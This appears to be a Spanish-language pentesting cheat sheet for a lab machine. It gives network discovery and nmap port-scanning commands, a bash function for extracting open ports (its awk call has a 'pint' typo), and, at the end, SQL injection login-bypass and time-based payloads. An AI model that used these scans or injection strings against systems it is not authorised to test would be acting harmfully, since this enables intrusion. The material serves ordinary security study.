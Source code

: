 # escaneo de IPs
```
arp-scan -I ens33 --localnet
```

# Listar dispositivos con su MAC
```
macchanger -l
```
# Listar dispositivos con su MAC y filtrar
```
macchanger -l | grep -i vmware
```

# Verificar si llega conectividad directa
```
ping -c 1 192.168.111.8
```
# Escanear puertos sin resolucion DNS y exportar los datos en fromato Grep
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.111.45 -oG allPorts 
```
# Visualizar archivo
```
cat allPorts
```

# script bash extraccion de puertos
```

# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP 'Host: .* \(\)' | head -n 1 | awk '{pint $2}')"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp 
    rm extractPorts.tmp
}

```

# Lanzar scripts de reconocimiento y deteccion de version y servicios para los puertos especificados y exportar en texto al archivo targeted
```
nmap -sC -sV -p22,80 192.168.111.45 -oN targeted
```
# Mostrar tecnologias de una web
```
whatweb http://192.168.111.45
```
# Inyeccion sql de prueba para login
```
admin' or 1=1-- -
admin' and sleep(5)-- -

```

